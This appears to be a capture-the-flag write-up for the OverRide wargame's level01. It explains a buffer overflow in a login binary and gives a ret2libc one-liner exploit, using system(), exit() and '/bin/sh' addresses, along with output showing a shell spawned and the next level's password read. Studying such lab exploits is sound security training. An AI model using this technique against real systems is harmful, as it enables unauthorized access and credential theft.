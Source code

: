 # level01

In this level, we have a binary that asks for a username and a password. If we give it the correct username and password, technically it should open a shell for us. However, it doesn't, even if we give it the correct username and password.

To find the username and password, see the [gdb writeup](gdbwriteup.md).

We can see that the program is segfaulting if we enter a password that is too long, we will define the offset with [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

We can deduce that the offset is 80 bytes.

Different addresses needed for the exploit:

- `0xf7e6aed0` : address of system()
- `0xf7e5eb70` : adddress of exit()
- `0xf7f897ec` : address of "/bin/sh"

We need to convert all the addresses to little endian. 

- `0xf7e6aed0` -> `\xd0\xae\xe6\xf7`
- `0xf7e5eb70` -> `\x70\xeb\xe5\xf7`
- `0xf7f897ec` -> `\xec\x97\xf8\xf7`


Now, we can write the exploit:

```bash
(python -c 'print("dat_wil\n" + "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level01
```

```bash
level01@OverRide:~$ (python -c 'print("dat_wil\n" + "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```